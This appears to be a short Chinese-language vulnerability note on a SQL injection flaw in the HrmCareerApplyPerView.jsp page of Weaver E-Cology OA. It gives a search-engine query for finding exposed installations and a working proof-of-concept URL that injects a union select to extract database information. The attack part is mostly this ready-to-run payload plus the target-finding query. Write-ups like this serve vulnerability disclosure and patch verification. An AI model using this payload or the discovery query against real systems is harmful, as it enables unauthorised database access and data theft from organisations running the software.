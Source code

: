# 泛微OA E-Cology HrmCareerApplyPerView.jsp SQL注入漏洞

## 漏洞描述

泛微OA E-Cology HrmCareerApplyPerView.jsp 文件存在SQL注入漏洞，攻击者通过漏洞可以获取服务器数据库敏感文件

## 漏洞影响

```
泛微OA E-Cology
```

## 网络测绘

```
app="泛微-协同办公OA"
```

## 漏洞复现

登录页面

![image-20220706133317122](images/202207061333252.png)

验证POC

```
/pweb/careerapply/HrmCareerApplyPerView.jsp?id=1 union select 1,2,sys.fn_sqlvarbasetostr(HashBytes('MD5','abc')),db_name(1),5,6,7
```

![image-20220706133435321](images/202207061334390.png)
